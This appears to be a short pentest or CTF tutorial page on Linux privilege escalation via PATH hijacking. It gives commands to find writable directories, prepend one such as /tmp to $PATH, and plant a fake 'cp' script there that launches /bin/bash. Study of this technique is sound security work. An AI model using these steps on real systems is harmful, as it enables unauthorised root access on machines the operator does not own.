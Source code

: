 # PATH

we start to know all paths are stored

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

then we want to know what are folder is writable

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

we compare if any writable folder is path or not if not found we try to add this folder in `$PATH`

```bash
export PATH=/tmp:$PATH
# replace /tmp to your path
```

then we will create a malicious file

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cp
chmod +x /tmp/cp
```
